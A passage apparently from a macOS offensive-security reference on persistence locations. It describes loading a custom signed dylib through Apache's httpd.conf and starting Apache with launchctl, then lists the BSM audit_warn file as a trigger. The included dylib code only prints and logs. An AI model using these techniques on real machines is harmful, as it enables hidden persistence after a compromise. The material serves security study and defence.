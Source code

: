 * Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
  * But you need to be root and apache needs to be running
* TCC bypass: [🔴](https://emojipedia.org/large-red-circle)
  * Httpd doesn't have entitlements

#### Location

* **`/etc/apache2/httpd.conf`**
  * Root required
  * Trigger: When Apache2 is started

#### Description & Exploit

You can indicate in `/etc/apache2/httpd.conf` to load a module adding a line such as:

{% code overflow="wrap" %}
```bash
LoadModule my_custom_module /Users/Shared/example.dylib "My Signature Authority"
```
{% endcode %}

This way your compiled moduled will be loaded by Apache. The only thing is that either you need to **sign it with a valid Apple certificate**, or you need to **add a new trusted certificate** in the system and **sign it** with it.

Then, if needed , to make sure the server will be started you could execute:

```bash
sudo launchctl load -w /System/Library/LaunchDaemons/org.apache.httpd.plist
```

Code example for the Dylb:

```objectivec
#include <stdio.h>
#include <syslog.h>

__attribute__((constructor))
static void myconstructor(int argc, const char **argv)
{
     printf("[+] dylib constructor called from %s\n", argv[0]);
     syslog(LOG_ERR, "[+] dylib constructor called from %s\n", argv[0]);
}
```

### BSM audit framework

Writeup: [https://theevilbit.github.io/beyond/beyond\_0031/](https://theevilbit.github.io/beyond/beyond\_0031/)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
  * But you need to be root, auditd be running and cause a warning
* TCC bypass: [🔴](https://emojipedia.org/large-red-circle)

#### Location

* **`/etc/security/audit_warn`**
  * Root required
  * **Trigger**: When auditd detects a warning
